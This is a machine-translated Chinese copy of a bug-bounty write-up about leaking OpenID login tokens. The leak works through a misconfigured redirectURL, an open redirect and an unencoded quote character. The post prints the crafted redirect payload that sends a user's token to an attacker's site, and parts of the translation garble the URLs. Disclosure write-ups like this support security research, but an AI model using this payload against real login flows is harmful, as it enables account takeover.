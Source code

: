 # 泄漏 OpenID 令牌“——就在你面前的错误

> 原文：<https://infosecwriteups.com/leaking-openid-tokens-with-the-bug-right-infront-of-you-95c1fb4a86e9?source=collection_archive---------0----------------------->

![](img/90705df34847871d46ad4c3767294ed8.png)

这只是一个简短的帖子，解释我发现的一个漏洞的细节，我相信许多研究人员在测试一个程序的登录流程时忽略了这个漏洞。这个错误可能会影响其他使用 OpenID 登录流程的网站，我建议进行测试:)(如果他们错误地配置了他们的 redirectURL 以允许* . ther domain . com/*是最好的，因为您找到开放 URL 重定向的范围会更大)

## 登录流程

所以，继续装窃听器。当登录到 redacted.com 时，它使用了一个 OpenID 系统，该系统的工作方式与 Oauth 登录流程完全相同，在 Oauth 登录流程中，它获取一个 redirectURL，并在成功登录后重定向到该 URL。随着重定向，一个令牌被发送，作为一个黑客，我想要这个令牌！

> [https://www.redacted.com/login?redirectURL=/here](https://www.redacted.com/login?redirectURL=/here)

我可以在 redirectURL 参数中输入*.redated.com，它会重定向。我很快找到了一个打开的 url 重定向，但遗憾的是，在最终重定向到我的网站时，用户登录令牌没有被附加，因为它被设置在 hashfragment 上。(#)Sadface.jpeg

我的第一个想法是，如果我用引号将它嵌套在一个参数中，会发生什么？我希望在重定向时将用户的登录令牌作为一个参数值用引号括起来。回过头来看，因为它是以 hashfragment 为背景的，我不知道我为什么会这样想。但是这表明你在黑客和测试方面永远不会出错..扔掉你想扔的东西，看看会发生什么！:)

这是一个易受攻击的 URL:

> 【https://www.redacted.com/login? redirect URL = https % 3A % 2F % 2 fevil . redated . com % 2f redirect % 3 furl % 3d https % 3A % 2F % 2 fwww . my site . com % 2F？c= "

当我测试时，这个 bug 起作用了！..但不是我期望的那样。然而，我在攻击者的网站上成功地获得了我的令牌。Happyface.jpeg

现在我只需要弄清楚是怎么发生的以及发生了什么。

当测试登录流并希望它们在成功登录后重定向到我的网站时，我将总是编码(有时是双重编码)以确保重定向时浏览器以正确的顺序解码值。**了解一个网站如何处理某些编码是很重要的**。(特别是当需要找到绕过:D 的过滤器时)

例如:下面的有效载荷不编码可能无法成功重定向到您想要的目的地(就像我说的，有时双重编码，%252F，这在您测试时会变得很明显)。

> ，[https://www.redacted.com/login?redirectURL=https](https://www.redacted.com/login?redirectURL=https%3A%2F%2Fevil.redacted.com%2Fredirect%3Furl%3Dhttps%3A%2F%2Fwww.mysite.com%2F?c=)://evil . redc ated . com/redirect？url=https://myevilsite.com/

不管怎样，回到实际的 bug。如果你注意到我实际上留下了一个未编码的字符…引号！“—我只是在测试看看会发生什么，我可以在引用中嵌套参数，记得吗？然而，在重定向到我的网站之前，redacted.com 实际上编码为“to"——由于这个简单的编码，它使得用户的登录令牌能够通过重定向走私到我的网站。如果我使用了%22，那么就不会有令牌泄露。它必须是”——正是如此。没有引号，没有令牌泄露。

最后的有效载荷简直就是 https://www.redacted.com/login?的**T3redirect URL = https % 3A % 2F % 2 fevil . redated . com % 2f redirect % 3 furl % 3d https % 3A % 2F % 2 fwww . my site . com % 2F？c="** 当用户登录时，他们的登录令牌被发送到攻击者的服务器。同样，如果没有“，*这个 bug 就不能工作*。但是感谢”，我现在是这个用户:)

## 外卖食品

说到黑客，没有对错之分。除非你尝试，否则你怎么知道？我发现我的大多数错误都来自于手动地与功能交互并试图破坏它们，而黑客的美妙之处在于:**你可以尝试任何事情！实际上任何事情(当然是在合理的范围内…！)**

所以我们有了它，一些如此简单的东西就在每个人面前，却有着巨大的影响力。正如开篇文章中解释的，这可能会影响更多的程序，因为这是许多网站使用的非常流行的登录流程，但这也取决于网站如何处理某些字符的编码，以及他们是否错误配置了重定向 URL 等:)

快乐狩猎&黑客❤

-齐亚诺